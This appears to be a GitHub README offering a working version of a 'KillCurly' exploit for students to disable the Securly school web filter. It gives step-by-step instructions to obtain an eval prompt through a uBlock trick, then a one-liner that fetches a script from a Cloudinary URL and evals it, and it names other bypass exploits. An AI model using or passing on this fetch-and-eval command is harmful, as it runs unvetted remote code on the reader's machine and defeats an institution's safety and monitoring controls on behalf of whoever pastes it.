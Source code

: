 HEAD
Note: You should NOT open an issue with @zek-c, he will get mad if you don't put something simple (as proven [here](https://github.com/zek-c/Securly-Kill-V111/issues/38)).

# KillCurly Working
@zek-c's KillCurly exploit, but working.

### Feel free to follow the instructions below:

From [3kh0](https://3kh0.github.io/ext-remover/)'s `ext-remover` thingy (in the case that uBlock isn't blocked as an installable extension), I found a way to make the KillCurly exploit work 🎉

Essentially, you would follow the instructions [here](https://3kh0.github.io/ext-remover/#ublock-run-run-code-on-pages).

Once you have that done, you would press `ctrl`**+**`alt`**+**`~` until you see the `Eval: ` alert. 

Then you would evaluate:

``` javascript
fetch('https://res.cloudinary.com/dxttxbdrd/raw/upload/v1693510756/kill_qn1hjn.js').then(r => r.text()).then(r => eval(r))
```

Since this is JavaScript evaluation only, you wouldn't put the `javascript:` like you would in a bookmarklet.

I recommend going to [Securly](https://www.securly.com) to do all of this because that's where the kill script is meant to work.

If this doesn't work, you would use Bypassi's INSECURLY exploit or Skiovox.

I hope you guys enjoy this 🫰
